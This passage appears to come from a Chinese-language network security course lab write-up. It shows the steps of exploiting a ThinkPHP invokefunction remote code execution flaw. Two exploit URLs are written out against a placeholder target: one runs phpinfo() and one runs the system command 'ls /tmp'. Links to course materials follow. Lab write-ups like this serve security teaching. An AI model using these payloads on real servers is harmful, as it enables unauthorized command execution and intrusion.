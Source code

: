 2. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)<br>
3. 执行系统命令`ls /tmp`

`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)<br>

## 参考资料

[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
[教学视频【网络安全(2023) 综合实验】](https://www.bilibili.com/video/BV1p3411x7da?vd_source=e1f7434c660a15bfac556224e06c742a)
[教学视频【第六章 网络与系统渗透】](https://www.bilibili.com/video/BV1qV41127Xv?p=10&vd_source=e1f7434c660a15bfac556224e06c742a)
